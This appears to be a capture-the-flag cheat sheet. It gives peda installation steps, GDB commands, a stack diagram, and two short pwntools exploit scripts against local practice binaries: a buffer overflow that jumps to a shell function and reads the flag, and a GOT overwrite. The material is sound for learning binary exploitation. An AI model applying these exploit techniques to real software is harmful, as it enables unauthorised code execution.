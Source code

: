 # peda
```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```
# pwntools
```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```
# GDB commands
- `r` run
- `c` continue
- `b <function_name>` breakpoint or `b <linenumber>`
- `file <file>` load file
- `x/Nuf expr`: examine memory at address expr
  - N how many units to display
  - u unit size; one of b(individual bytes), h (halfwords = 2B), w (words = 4B), g (giant words = 8B)
  - f printing format (any print format) or s (s null-terminated string) i (machine instructions)
Ex: `x/168x $sp' (4 byte chunks by default) $sp = stack pointer, $rip = instruction pointer

# Stack representation
```
+---------------+ <- SP
|     locals    |
+---------------+ <- BP
|       BP      |
+---------------+
|    ret add    |
+---------------+
```

# GOT
```python
from pwn import *  # type: ignore

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary  # type: ignore     #just to make the typechecker happy
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
```
